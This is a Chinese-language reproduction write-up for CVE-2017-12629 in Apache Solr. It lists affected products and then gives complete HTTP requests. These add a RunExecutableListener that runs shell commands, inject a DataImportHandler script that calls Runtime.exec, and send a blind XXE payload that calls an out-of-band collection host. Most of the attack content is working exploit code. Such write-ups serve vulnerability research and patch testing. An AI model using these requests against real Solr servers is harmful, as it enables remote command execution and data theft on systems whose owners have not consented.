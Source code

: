 # CVE-2017-12629 Apache Solr rce&xxe 漏洞

## 漏洞影响

* Redhat Single Sign-On 7.0
* + Redhat Linux 6.2 E sparc
* + Redhat Linux 6.2 E i386
* + Redhat Linux 6.2 E alpha
* + Redhat Linux 6.2 sparc
* + Redhat Linux 6.2 i386
* + Redhat Linux 6.2 alpha
* Redhat JBoss Portal Platform 6
* Redhat JBoss EAP 7 0
* Redhat Jboss EAP 6
* Redhat JBoss Data Grid 7.0.0
* Redhat Enterprise Linux 6
* + Trustix Secure Enterprise Linux 2.0
* + Trustix Secure Linux 2.2
* + Trustix Secure Linux 2.1
* + Trustix Secure Linux 2.0
* Redhat Collections for Red Hat Enterprise Linux 0
* Apache Solr 6.6.1
* Apache Solr 6.6
* Apache Solr 6.5.1
* Apache Solr 6.5
* Apache Solr 6.4
* Apache Solr 6.3
* Apache Solr 6.2
* Apache Solr 6.6
* Apache Solr 6.3
* Apache Solr 6.0
* Apache Lucene 0

## 复现过程

**rce 姿势一**

首先创建一个listener，其中设置exe的值为我们想执行的命令，args的值是命令参数：


```bash
POST /solr/demo/config HTTP/1.1
Host: 10.0.83.79:8983
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 158

{"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/success"]}}
```

![](images/15889420398658.png)


在solr管理界面新建了listen

![](images/15889420467138.png)


然后进行update操作，触发刚才添加的listener：


```bash
POST /solr/demo/update HTTP/1.1
Host: 10.0.83.79:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

[{"id":"test"}]
```

![](images/15889420624217.png)


**rce 姿势二**

![](images/15889420755559.png)


如上图所示，首先打开刚刚创建好的test核心，选择Dataimport功能并选择debug模式，填入以下POC：


```
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

点击`Execute with this Confuguration`会发送以下请求包：

payload(这里我直接填无法命令执行替换如下payload)


```bash
POST /solr/test/dataimport?_=1565835261600&indent=on&wt=json HTTP/1.1
Host: 10.0.83.79:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 679
Connection: close
Cookie: csrftoken=gzcSR6Sj3SWd3v4ZxmV5OcZuPKbOhI6CMpgp5vIMvr5wQAL4stMtxJqL2sUE8INi; sessionid=snzojzqa5zn187oghf06z6xodulpohpr

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%2Fstackoverflow.com%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport
```

![](images/15889421124830.png)


**xxe**

由于返回包中不包含我们传入的XML中的信息，所以这是一个Blind XXE漏洞，我们发送如下数据包（自行修改其中的XXE Payload）：


```bash
GET /solr/demo/select?q=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%0A%3C%21DOCTYPE%20root%20%5B%0A%3C%21ENTITY%20%25%20remote%20SYSTEM%20%22http%3A//xxe.rqe94e.ceye.io/%22%3E%0A%25remote%3B%5D%3E%0A%3Croot/%3E&wt=xml&defType=xmlparser HTTP/1.1
Host: your-ip:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

使用ceye

发送payload

![](images/15889421393206.png)


ceye接收

![](images/15889421476051.png)


参考链接

https://wh0ale.github.io/2019/08/26/Apache-Solr安全问题/